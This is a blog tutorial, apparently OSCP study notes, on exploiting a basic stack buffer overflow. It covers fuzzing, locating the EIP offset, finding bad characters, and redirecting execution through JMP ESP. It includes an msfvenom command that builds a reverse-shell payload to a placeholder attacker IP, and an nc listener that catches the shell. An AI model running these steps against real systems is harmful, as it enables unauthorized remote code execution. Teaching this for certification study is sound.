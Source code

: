 ```yaml
---
title:  "Basic Buffer Overflows"
header: "Basic Buffer Overflows"
categories: 
  - Tutorial
tags:
  - Hacking
---
```


A lot can be said about buffer overflows and they are perhaps the most daunting part of attempting the OSCP for most. However, as you&#39;ll find in most of your offensive hacking endeavors, it&#39;s all about experimentation and tweaking your process. Below are the notes I used to successfully exploit several applications (given they didn&#39;t have standard security such as ASLR or DEP) and serves as a good example of understanding a basic buffer overflow.

**Fuzz the application**

If you don&#39;t have access to the code and there aren&#39;t any publicly disclosed exploits then another viable option is to fuzz the application and see what happens. Fuzzing is essentially the act of sending malformed or unintended data to an application and watching to see if it behaves abnormally such as crashing. Keep in mind that just because you cause an application to crash doesn&#39;t necessarily mean that it&#39;s vulnerable but it should key you into paying closer attention to it.

- Run the application
- Attach the debugger ([Immunity Debugger](https://www.immunityinc.com/products/debugger/) is a good option) to the application
- Run your fuzzer
- Write a script to replicate the crash (this is where you&#39;ll set the size of the buffer)

**Find out which part of the buffer overwrites EIP**

So you'll need to know a few key pieces of controlling EIP

The EIP (Extended Instruction Pointer) register controls the execution flow of the application. Think of it as a steering wheel of a car, you can direct it where to go.

The ESP (Extended Stack Pointer) is an indirect memory operand pointing to the top of the stack. This is the point where the instructions that use the stack, actually use it.

Here are a view of these values in Immunity
![EIP & ESP Example](/assets/images/eip_esp_example.jpg)

There are two basic tactics when attempting at controlling the EIP
Binary Tree Analysis (manual way) - essentially you split the buffer in a series of same characterws until you notice the EIP getting over-written
Example: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCCCCDDDDDDDDDD

Unique String (automated way) - send a unique string so you can see which 4 bytes are written in the EIP.
Example: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4

Naturally you are going to want to use the Unique String Method whenever possible as it can cut down on discovery time and possibly lead to fewer mistakes.

- Create a unique string that's the size of your buffer (pattern\_create.rb is great for this, comes with Kali!)
  - Usage: `pattern\_create.rb 2200` <-- size of your buffer
- Place the output inside your script
- Run script and locate EIP's bytes
![EIP](/assets/images/eip.jpg)
- Use pattern\_offset.rb to find the position from your pattern\_create script
  - Usage: `pattern-offset.rb 13731415` <--EIP value from crash
- It should return your location (something like 1403). This means that on the 1404th byte is where you can direct EIP. A good way to test this is to send a certain amount of A&#39;s, B&#39;s, and C&#39;s to see where the values are located
  - Example: buffer = &quot;A&quot;\*1403 + &quot;B&quot;\*4 + &quot;C&quot;\*793 &lt;----the last part is to fulfill the orginial 2200 buffer

**(Optional) Increase the buffer size to allow room for shellcode**

The average size for shellcode is around 350-400 so you&#39;ll need to have roughly that much space left in the buffer. If you don&#39;t have enough then it&#39;s a good idea to increase the padding on your buffer either before or after the EIP director bytes.

**Discover bad characters**

To me this can be the most frustrating part of the process and often where people slip up. It&#39;s not so much that it&#39;s difficult but rather just tedious and attention to detail can go a long way. The purpose in discovering bad characters is to ensure that our shellcode doesn&#39;t get modified (truncated, character replaced, etc.). As a side note null values and carriage returns are notoriously bad characters.

- Place the below character listing in your fuzzer
`\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13
\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26
\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39
\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c
\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f
\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72
\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85
\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98
\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe
\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1 
\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4 
\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7 
\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff`  
- Run the fuzzer
- Look at memory location of ESP
- Discover where the increments are broken, malformed, omitted
- Remove the character from the buffer and continue until you&#39;ve completed them all

Example
![Bad Characters](/assets/images/badchars.jpg)  

**Redirect EIP**

When the application starts each time you&#39;ll notice that your pointers are at different locations. To ensure that we always hit our shellcode, we&#39;ll need a solid/static location with each restart. There are a couple of requirements in this instance (this is just a basic example). Needs to be readable and executable and can&#39;t have DEP or ASLR enabled. A good place to look is any accompanying DLL&#39;s with the application. A good tool to help discover potential modules is mona.py, which once again comes with Kali.

- Once you&#39;ve found a solid module, you&#39;ll want to search for JMP ESP&#39;s within immunity
  - Search &gt; Sequence of Commands &gt; &quot;push esp (next line) retn&quot;
  - Search for jmp esp in the whole DLL
  - If you can&#39;t find one then the nasm\_shell command is FFE4 and you should search for that using mona.py
    - Usage: `!mona find –s "\xff\xe4" –m <vulnerable module>`  
    - ![Mona](/assets/images/mona.jpg)  
  - Test and place the location within your fuzzer
  - ![JMP ESP](/assets/images/jmp_esp.jpg)  

By redirecting the EIP to our newly found address, at the time of the crash, a JMP ESP instruction will be executed, which will lead the execution flow into our shellcode

**Generate Shellcode**

Your shell code can be just about anything malicious that you want to do on the asset, but its typically used for returning a shell (but don&#39;t forget about other options like adding users, altering data, etc.). A basic tool to help with generating shellcode is msfvenom which is part of the Metasploit framework.

- In our example we&#39;re going to use a reverse shell and encode it with shikata\_ga\_nai (I highly recommend to explore some of the other encoders as they may be the only options with your bad characters combination)
  - Usage:  `msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT NUMBER> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "<BAD CHARACTERS>`  
![Shellcode](/assets/images/shellcode.jpg)  
- Make note of the size of your shellcode as you&#39;ll need to account for it and ensure that you have the proper space
- Within your fuzzer, place a few NOP&#39;s (\x90) before the shellcode to ensure it has enough room to decode and it won&#39;t trip over itself

**Exploit**

You&#39;re ready to fire off your exploit! I recommend setting a breakpoint at the JMP ESP address to verify if the shellcode gets executed

- Set up a listener on the port number that you chose
  - Usage: `nc –lvp <PORT NUMBER>`  
- Fire off your script and if everything works right you should be presented with a reverse shell from your target
![Reverse Shell](/assets/images/shell.jpg)  
